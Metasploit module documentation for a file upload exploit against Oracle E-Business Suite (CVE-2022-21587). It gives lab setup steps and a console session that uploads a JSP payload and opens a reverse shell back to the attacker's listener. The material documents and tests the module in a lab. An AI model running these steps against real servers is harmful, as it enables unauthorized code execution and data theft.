 ## Vulnerable Application

This module exploits CVE-2022-21587, an arbitrary file upload vulnerability in Oracle Web Applications Desktop Integrator as shipped with Oracle E-Business Suite (EBS) versions 12.2.3 through to 12.2.11.

The exploit uploads a Java Server Page (JSP) payload in order to achieve code execution and by default will use the `java/jsp_shell_reverse_tcp` payload.

The Oracle EBS product is shipped as either a standalone appliance based on Linux, or an self hosted application supporting multiple platforms, including Linux, Windows, Solaris, AIX and HP-UP. This exploit module has been tested against the Linux based appliance, specifically version 12.2.10. 

A full technical analysis of the vulnerability can be found on [AttackerKB](https://attackerkb.com/topics/Bkij5kK1qK/cve-2022-21587/rapid7-analysis).

## Target Setup

To setup the Oracle EBS appliance, you must download the appliance files, rebuild the appliance image and install the appliance as a [VirtualBox](https://www.virtualbox.org/) virtual machine.

* Register an account at [Oracle E-Delivery](https://edelivery.oracle.com/osdc/faces/SoftwareDelivery) and login to search for the required software, specifically the `Oracle VM Virtual Appliance for Oracle E-Business Suite`.

* You will be presented with multiple ZIP files to download. These files will be extracted and concatenated to create a single 70 GB Oracle Virtual Appliance (OVA) file. Instructions on how to do this, as well as additional configuration instructions, can be found in the extracted documentation located in `\V1005962-01\Documents\Oracle VM Virtual Appliance for Oracle E-Business Suite Deployment Guide_Release 12.2.10.html`. Additionally a step by step guide for installation and setup is available [here](https://blog.rishoradev.com/2021/04/12/oracle-ebs-r12-on-virtualbox/).

* Import the OVA file into VirtualBox. Once this is completed you may power on the virtual appliance. You will require around 320 GB of hard disk space to complete this operation.

* Follow the instructions displayed in the console to set the default passwords for the `root` and `oracle` and `applmgr` user accounts.

* Once installation and setup has been completed, you can SSH into the appliance as the user `oracle` and start the database and application services with the following commands:

  ```
  cd /u01/install/APPS/scripts/
  ./startdb.sh
  ./startapps.sh
  ```

* You can now access the WebLogic server over HTTP port `8000`.

## Verification Steps

To exploit the vulnerability against a target Oracle EBS Linux based appliance, the following steps are performed.

```
msf6 > use exploit/linux/http/oracle_ebs_rce_cve_2022_21587 
[*] Using configured payload java/jsp_shell_reverse_tcp
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > show options

Module options (exploit/linux/http/oracle_ebs_rce_cve_2022_21587):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metaspl
                                       oit/basics/using-metasploit.html
   RPORT    8000             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Oracle EBS on Linux



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > set RHOST 192.168.86.37
RHOST => 192.168.86.37
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > set LHOST 192.168.86.5
LHOST => 192.168.86.5
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > check

[*] Target is running version 12.2.10
[*] 192.168.86.37:8000 - The target appears to be vulnerable.
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) > exploit

[*] Started reverse TCP handler on 192.168.86.5:4444 
[*] Targeting the endpoint: /OA_HTML/BneUploaderService
[*] Triggering the payload...
[+] Deleted /u01/install/APPS/fs1/FMW_Home/Oracle_EBS-app1/applications/forms/forms/ygrne.jsp
[*] Command shell session 1 opened (192.168.86.5:4444 -> 192.168.86.37:59288) at 2023-02-10 12:20:43 +0000

id
uid=54321(oracle) gid=54321(oinstall) groups=54321(oinstall),54322(dba) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
uname -a
Linux apps 3.10.0-1160.11.1.el7.x86_64 #1 SMP Tue Dec 15 11:58:45 PST 2020 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 192.168.86.37 - Command shell session 1 closed.
msf6 exploit(linux/http/oracle_ebs_rce_cve_2022_21587) >
```
